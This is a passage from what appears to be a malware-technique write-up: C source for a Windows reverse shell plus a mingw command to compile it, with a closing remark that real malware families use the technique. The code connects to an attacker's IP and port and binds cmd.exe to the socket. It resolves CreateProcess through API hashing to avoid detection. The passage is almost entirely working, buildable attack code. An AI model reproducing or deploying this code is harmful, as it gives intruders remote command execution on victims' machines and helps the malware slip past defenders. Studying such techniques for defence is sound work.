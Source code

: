 ```c
struct sockaddr_in connectionAddress;
STARTUPINFO startupInfo;
PROCESS_INFORMATION processInfo;

int main(int argc, char* argv[]) {
  
  // ip and port details for the attacker's machine
  char *attackerIP = "10.10.1.5";
  short attackerPort = 4444;

  // initialize socket library
  WSAStartup(MAKEWORD(2, 2), &socketData);

  // create socket object
  mainSocket = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, (unsigned int)NULL, (unsigned int)NULL);

  connectionAddress.sin_family = AF_INET;
  connectionAddress.sin_port = htons(attackerPort);
  connectionAddress.sin_addr.s_addr = inet_addr(attackerIP);

  // establish connection to the remote host
  WSAConnect(mainSocket, (SOCKADDR*)&connectionAddress, sizeof(connectionAddress), NULL, NULL, NULL, NULL);

  memset(&startupInfo, 0, sizeof(startupInfo));
  startupInfo.cb = sizeof(startupInfo);
  startupInfo.dwFlags = STARTF_USESTDHANDLES;
  startupInfo.hStdInput = startupInfo.hStdOutput = startupInfo.hStdError = (HANDLE) mainSocket;

  // resolve function addresses 
  LPVOID address = getAPIAddr((char *)"kernel32", 0x005d47253);
  CreateProcess_t myCreateProcess = (CreateProcess_t)address;
  // initiate cmd.exe with redirected streams
  myCreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &startupInfo, &processInfo);

  exit(0);
}
```

### Compile 

```bash 
 x86_64-w64-mingw32-g++ hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lws2_32
```

One of the most popular techniques in real-life malware, including Carbanak, Carberp, Loki, Conti and others.

### Result
